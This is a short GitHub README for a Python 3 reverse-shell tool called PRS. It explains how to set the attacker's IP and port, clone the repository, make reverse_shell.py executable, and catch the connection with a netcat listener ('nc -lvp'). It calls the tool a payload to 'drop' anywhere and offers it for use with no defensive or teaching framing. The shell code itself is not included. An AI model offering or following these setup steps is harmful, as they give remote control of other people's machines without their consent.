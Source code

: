 # PRS - Python reverse shell
The reverse shell for python

## Description
A reverse shell written in python 3.This payload works with netcat and only netcat. Drop the shell any where while having netcat listing.

## Instructions
Be sure to change the following:
```
 host = "Your ip"  # Put your machines IP here 
 port = 4444       # You can change the port if you would like, this is just a defult one
 ```
 ## Instaltion
 ```
 git clone https://github.com/hackerman234/PRS.git
 chmod +x reverse_shell.py
 ```
 ## Netcat
 Heres a guide how to use netcat
 ```
 nc -lvp <the port you want to listen on>
 ```
 
 ## Authors
 @hackerman234
